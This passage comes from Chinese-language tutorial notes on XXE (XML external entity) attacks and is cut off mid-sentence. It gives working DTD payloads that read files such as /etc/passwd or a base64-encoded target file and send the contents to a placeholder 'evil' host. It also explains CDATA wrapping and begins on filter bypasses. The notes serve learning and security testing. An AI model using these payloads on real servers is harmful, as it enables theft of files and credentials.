 ```xml
<!-- 引用的dtd -->
<!ENTITY % xxe SYSTEM "php://filter/read=convert.base64-encode/resource=target.txt">
<!ENTITY % dtd "<!ENTITY send SYSTEM 'http://evil/?%xxe;'>">
%dtd;
```

* 最终结果来看，我们的目的是要发起请求http://evil/?想要读取的内容
* 想要读取的内容就是php://filter/read=convert.base64-encode/resource=target.txt，target是我们想要读取的文件内容，这里默认目标主机是php语言，采用了php的xml外部实体引用所支持的php伪协议，伪协议中的convert.base64-encode/resource是对目标文件进行base64编码，防止出现预定义字符而解析出错（这里也可采用下面的方法防止出现预定义字符）



* 其他常用payload

 ```java
 <!ENTITY % start "<![CDATA[">
 <!ENTITY % xxe SYSTEM "file:///etc/passwd">
 <!ENTITY % end "]]>">
 <!ENTITY % evil "%start;%xxe;%end;">
 <!ENTITY % dtd "<!ENTITY send SYSTEM 'https://evil?%evil;'>">
 %dtd;
 ```

#### 要包含的目标文件有预定义字符

```xml
<!DOCTYPE root [
	<!ENTITY % start "<![CDATA[">
	<!ENTITY % xxe SYSTEM "想要包含的文件">
	<!ENTITY % end "]]>">
	<!ENTITY % dtd SYSTEM "DTD url">
]>

<root>&evil;</root>
```

```xml
<!-- 引用的dtd -->
<!ENTITY evil "%start;%xxe;%end;">
```

* 采用之前谈到过的\<![CDATA[]]\>将包含预定义字符括起来

* 注意：

  * \<root\>&evil;\</root\>在进行解析时，如果&evil;包含的字符中有预定义字符，解析可能会出错
  * "%start;%xxe;%end;" 这种写法只有在外部实体才合法，所以这里没有直接写在内部DCOTYPE声明
  * 在xml文档中使用多个 &实体;  例如下面这个拼接不可行

  ```xml
  <!DOCTYPE root [
  	<!ENTITY  start "<![CDATA[">
  	<!ENTITY  xxe SYSTEM "想要包含的文件">
  	<!ENTITY  end "]]>">
  ]>
  
  <root>&start;&xxe;&end;</root>

#### 后端对某些字符的过滤

* 对%：使用\&#37;替代

* 对&